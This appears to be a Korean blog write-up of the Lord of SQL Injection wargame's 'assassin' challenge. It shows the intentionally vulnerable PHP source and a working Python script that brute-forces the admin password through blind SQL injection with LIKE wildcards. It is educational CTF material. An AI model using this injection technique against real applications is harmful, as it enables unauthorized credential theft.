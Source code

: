 ```yaml
---
title: Lord of SQL Injection Write Up No.15 Assassin
date: 2019-08-31 20:34:41
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 15번 assassin 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

`LIKE` 연산자 뒤에 오는 문자열에 Blind SQL Injection을 하여 `pw`를 알아낼 수 있는지 확인한다.

### 필요 배경 지식

#### SQL 패턴 매칭

- MySQL은 유닉스 유틸리티가 사용하는 `vi`, `grep`, 및 `sed`등과 유사한 확장된 규칙 수식 (extended regular expression)에 근거한 패턴 매칭 형식 뿐만 아니라 표준 SQL 패턴 매칭도 함께 제공한다.
- SQL 패턴 매칭에서 `_`를 사용해서 단일 문자를 매칭시킬 수 있고 `%`를 사용해서 정해지지 않은 개수의 문자를 매칭 시킬 수 있다.
- SQL 패턴은 디폴트로 **대소 문자를 구분하지 않는다**.
- SQL패턴을 사용할 때에는 `=` 또는 `<>`는 사용할 수 없다. `LIKE` 또는 `NOT LIKE` 를 대신 사용한다.
- MySQL의 패턴 매칭에 대해 잘 모르겠다면 다음 링크를 참고하자.
- [3.3.4.7. 패턴 매칭 - :::MySQL Korea:::](http://www.mysqlkorea.com/sub.html?mcode=manual&scode=01&m_no=20156&cat1=3&cat2=91&cat3=102&lang=k)

### 소스 코드 분석

assassin 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("assassin");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~");
```

- GET 방식으로 `pw`를 받고, `pw`에 `'` 가 들어 있으면 `No Hack ~_~`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("assassin");
```

- 받은 `pw`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- `$result['id']`에 참이 되는 어떤 값이든 들어 있으면 응답에 `"Hello "`와 `$result[id]` 값을 붙인 문자열이 포함된다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `id`에 `"admin"`이라는 값이 들어있음'이다.
- `pw`가 `'`로 둘러싸여 있고 `'`는 필터링 되므로 `LIKE` 연산자 뒤에 오는 문자열에 Blind SQL Injection을 하여 `pw`를 직접 알아내서 푸는 방법을 사용한다.

## Solution

1. 와일드카드 활용

   ```python
   import urllib.request
   from urllib.parse import quote
   from string import digits
   from string import ascii_lowercase

   guestpwlen = 0
   adminpwlen = 0
   key = "" # admin 비밀번호가 저장될 문자열
   guestkey = "" # guest 비밀번호가 저장될 문자열
   findadmin = False # guest 비밀번호 문자와 admin 비밀번호 문자가 같은 경우 처리하기 위해 만든 변수

   for i in range(1, 20):
       url = "http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw="
       data = ('_' * i) # 한 문자 와일드카드인 _ 이용하여 pw 길이 측정
       data = quote(data)
       re = urllib.request.Request(url + data)

       re.add_header(
           "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
       re.add_header(
           "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
       )

       req = urllib.request.urlopen(re)

       result = req.readline()
       print(result)

       if str(result).find("Hello guest") != -1:
           guestpwlen = i
           print ("guest pw length : " + str(guestpwlen))

       if str(result).find("Hello admin") != -1:
           adminpwlen = i
           print ("admin pw length : " + str(adminpwlen))
           findadmin = True
           break

   if not findadmin:
       adminpwlen = guestpwlen
       print ("admin pw length : " + str(adminpwlen))
   findadmin = False

   for i in range(0, adminpwlen):
       if not findadmin:
           key = guestkey
       findadmin = False
       for j in digits + ascii_lowercase:
           url = "http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw="
           data = key + "{}".format(j) + ("_" * (7 - i))
           data = quote(data)
           re = urllib.request.Request(url + data)
           re.add_header(
               "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
           re.add_header("Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81")
           re.add_header(
               "Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8")
           req = urllib.request.urlopen(re)

           result = req.readline()
           print(result)

           if str(result).find("Hello guest") != -1: # guest와 admin이 같은 비밀번호를 가질 경우 Hello guest가 출력되므로 일단 guestkey에 저장했다가 findadmin을 이용하여 처리
               guestkey += j
               print ("g : " + guestkey)

           if str(result).find("Hello admin") != -1:
               key += j
               print ("a : " + key)
               findadmin = True
               break
   print (key)
   ```

   이러한 코드를 실행하면 결과값으로 `832edd10` 를 출력한다.
   이를 GET 방식으로 `pw`의 값으로 전달하면 풀린다.

   ```url
   http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw=832edd10
   ```
